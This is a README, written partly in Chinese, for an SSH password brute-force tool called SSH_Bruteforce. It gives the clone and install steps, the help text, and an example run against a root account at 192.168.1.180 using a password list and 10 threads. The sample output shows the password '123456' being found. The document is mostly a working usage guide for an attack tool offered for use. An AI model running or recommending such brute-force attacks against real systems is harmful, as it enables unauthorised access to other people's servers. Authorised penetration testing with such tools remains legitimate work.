 # SSH_Bruteforce
#### 获取脚本

```Bash
git clone https://github.com/HZzz2/SSH_Bruteforce
```

#### 进入目录和安装第三方库

```Bash
cd SSH_Bruteforce
pip install paramiko
```

#### 获取帮助

```Bash
python SSH_Bruteforce.py -h
```

```test
usage: SSH_Bruteforce.py [-h] -H HOST -u USER -f FILE -t THREAD

exmple: python3 SSH_Bruteforce.py -H 192.168.1.180 -u root -f password.txt -t 10

optional arguments:

  -h, --help            show this help message and exit

  -H HOST, --host HOST  Hostname/IP       要爆破的主机IP

  -u USER, --user USER  Username          SSH用户名

  -f FILE, --file FILE  Password file     密码字典

  -t THREAD, --thread THREAD              线程数
    Thread number
```

#### 执行脚本

```Bash
python SSH_Bruteforce.py -H 192.168.1.180 -u root -f password.txt -t 10
```
```text
[-] 123221 is not correct
[-] 442342 is not correct
[-] 842482 is not correct
[-] 524253 is not correct
[-] 224224 is not correct
[-] 724731 is not correct
[+] 123456 is correct
SSH PassWord：123456
```
出现paramiko ssh banner错误不影响程序运行


